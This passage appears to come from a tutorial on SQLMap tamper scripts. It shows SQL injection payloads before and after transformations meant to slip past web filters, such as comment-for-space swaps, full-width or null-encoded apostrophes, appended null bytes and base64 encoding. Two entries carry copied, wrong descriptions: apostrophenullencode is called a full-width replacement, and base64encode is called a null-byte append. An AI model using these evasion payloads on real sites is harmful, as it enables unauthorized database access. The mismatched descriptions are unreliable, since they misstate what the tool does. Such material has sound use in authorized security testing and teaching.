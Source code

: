 See the difference? `%20` in the previous HTTP request is changed to `/**/` which will bypass filters on the website if the user input does not allow any spaces. And that is a small example of using tamper scripts in SQLMap. The next section is a list of tamper scripts that we can use to do SQL Injection using SQLMap.

# **List Tamper Scripts**

There are 69 tamper scripts that we can use and here is the list:

- 0eunion

Replaces instances of `<int> UNION` with `<int>e0UNION`. For example:

-- First payload  
1 UNION ALL SELECT  
  
-- After using the tamper  
1e0UNION ALL SELECT

- apostrophemask

Replaces apostrophe character (‘) with its UTF-8 full width counterpart. For example:

-- First payload  
1 AND '1'='1  
  
-- After using the tamper  
1 AND %EF%BC%871%EF%BC%87=%EF%BC%871

- apostrophenullencode

Replaces apostrophe character (‘) with its UTF-8 full width counterpart. For example:

-- First payload  
1 AND '1'='1  
  
-- After using the tamper  
1 AND %00%271%00%27=%00%271

- appendnullbyte

Appends (Access) NULL byte character (%00) at the end of payload. For example:

-- First payload  
1 AND 1=1  
  
-- After using the tamper  
1 AND 1=1%00

- base64encode

Appends (Access) NULL byte character (%00) at the end of payload. For example:

-- First payload  
1' AND SLEEP(5)#  
  
-- After using the tamper  
MScgQU5EIFNMRUVQKDUpIw==

- between
